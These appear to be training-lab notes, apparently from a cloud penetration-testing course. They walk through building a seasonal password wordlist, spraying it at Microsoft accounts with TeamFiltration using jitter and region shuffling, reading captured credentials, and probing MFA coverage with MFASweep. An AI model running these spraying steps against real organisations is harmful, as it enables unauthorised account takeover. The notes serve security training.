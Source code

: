**Build a wordlist that matches the below syntax**

We'll be building the synax off of the password, SnakeJazz2020, which would be: Snake + Jazz + 2020

```python
echo "2019" >> /opt/Wordlister/words.txt
```

```python
echo "2020" >> /opt/Wordlister/words.txt
```

```python
echo "2021" >> /opt/Wordlister/words.txt
```

```python
echo "2022" >> /opt/Wordlister/words.txt
```

** Use the wordlister python script to manipulate the words.txt file**
```python
python3 /opt/Wordlister/wordlister.py --cap --input /opt/Wordlister/words.txt --perm 3 --min 4 --max 30
```
>
    
    --input: `words.txt is the output
    --cap: This capitalizes all the words
    --perm 3: This instructs Wordlister to make a permutation of 3 words
    --min 4: The minimum number of characters is 4
    --max 30: The maximum number of characters is 30

**Validate that what we have done will show us the password of BirdPerson2021, which we can use as a true positive**
```python
cat /opt/Wordlister/output.txt  | grep -E '^BirdPerson2021'
```

**If this command shows BirdPerson2021, we have built a wordlist containing the right format**
```python
cat /opt/Wordlister/output.txt  | grep -v '^20\|Tammy\|Terry\|Gummerman\|terry\|tammy\|jerry\|Jerry\|Smith\|Summer\Sleepy\|sleepy\|gary\|Gary' > /opt/Wordlister/pw1.txt
```

**Run this through the pw-inspector tool from hydra; this tool will remove all small words**
```python
pw-inspector -i /opt/Wordlister/pw1.txt -o /opt/Wordlister/pw2.txt -m 13 -M 20 -c 3 -l -u -n
```
>
    
    -m 13: minimum of 13
    -M 20: maximum of 20
    -c 3 : number of types required for character sets
    -l : lowercase characters
    -u : uppercase characters
    -n : numerical characters

**Next remove all the words that do not reflect, starting with a capitalized character**
```python
sed '/^[[:lower:][:punct:]]/d' /opt/Wordlister/pw2.txt > /opt/Wordlister/pw3.txt
```

**Have the grep command use Regex only to include words that end in numbers**
```python
grep -E '[0-9]$' /opt/Wordlister/pw3.txt > /opt/Wordlister/pw4.txt
```

** Let's validate that the list contains passwords that match our list of words**
```python
cat /opt/Wordlister/pw4.txt | grep '^BirdPerson2021'
```

**Use the TeamFiltration tool to spray usernames**

Sometimes this tool will crash and you will receive the following errors:

    - Cannot resolve the Amazon API Gateway that was just created
    - Too many Gateway request for delete at one time
    - False negatives where this may occur in the middle of a scan

It is important to note that while this may seem like a problem, in many cases deleting the database can help you recover. Here is a simple way to do so
```python
rm -Rf /home/sec588/Coursefiles/workdir/teamfiltration
```

```python
/opt/teamfiltration/TeamFiltration --outpath /home/sec588/Coursefiles/workdir/teamfiltration --enum --validate-login --config /home/sec588/Coursefiles/workdir/TeamFiltrationConfig_SEC588.json --usernames /home/sec588/Coursefiles/workdir/users.txt
```

**TEAMFILTRATION COMMAND TO EXECUTE!**
```python
/opt/teamfiltration/TeamFiltration --outpath /home/sec588/Coursefiles/workdir/teamfiltration --config /home/sec588/Coursefiles/workdir/TeamFiltrationConfig_SEC588.json --spray --validate-login --sleep-min 1 --sleep-max 3 --jitter 1 --usernames /home/sec588/Coursefiles/workdir/users.txt --passwords /home/sec588/Coursefiles/workdir/passwords.txt --shuffle-users --shuffle-regions
```
>
    
    --usernames: A file containing the usernames
    --outpath: This is the location where the teamfiltration database will live
    --config: This is the configuration file to use
    --validate-login: Use the more "noisy" flag in this way it will have 1 bad password attempt per email address
    --spray: This is to perform a password spraying attack
    --sleep-min: This will set the minimal sleep interval (1 minutes)
    --sleep-max: This will set the maximum internal to wait (3 minutes)
    --jitter: This is the amount to jitter between maximum and minimum time intervals
    --usernames: This is the file containing usernames
    --passwords: This is the file containing passwords
    --shuffle-users: This command is to shuffle the usernames to test so that they are tested in different orders
    --shuffle-region: This command is to shuffle between regions

**View results with the --database flag**
```python
/opt/teamfiltration/TeamFiltration --outpath /home/sec588/Coursefiles/workdir/teamfiltration --config /home/sec588/Coursefiles/workdir/TeamFiltrationConfig_SEC588.json --database
```
```python
show creds
```
```python
exit
```
**Launch a tool set called MFASweep which will allow us to check for MultiFactor Authentication on many Microsoft Services**
**Run pwsh command to launch MFASweep.ps1**
```python
pwsh
```
Import-Module ./MFASweep.ps1

```python
Invoke-MFASweep -Username summer@sec588.org -Password SnakeJazz2020
```
